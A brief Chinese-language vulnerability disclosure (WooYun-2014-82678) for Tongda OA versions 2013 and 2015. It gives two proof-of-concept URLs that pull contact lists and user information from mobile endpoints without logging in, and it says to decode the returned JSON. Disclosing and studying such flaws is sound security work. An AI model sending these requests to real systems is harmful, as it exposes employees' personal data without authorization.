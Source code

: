 ```yaml
---
title: "（WooYun-2014-82678）通达oa未授权获取帐号"
id: zhfly3332
---
```


# （WooYun-2014-82678）通达oa 未授权获取帐号

## 一、漏洞简介

无需登录，即可获取所有信息

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/mobile/inc/get_contactlist.php?P=1&KWORD=%&isuser_info=3 
```

```
http://0-sec.org/mobile/user_info/data.php?P=1&ATYPE=getUserInfo&Q_ID=50 
```

将返回的json进行解码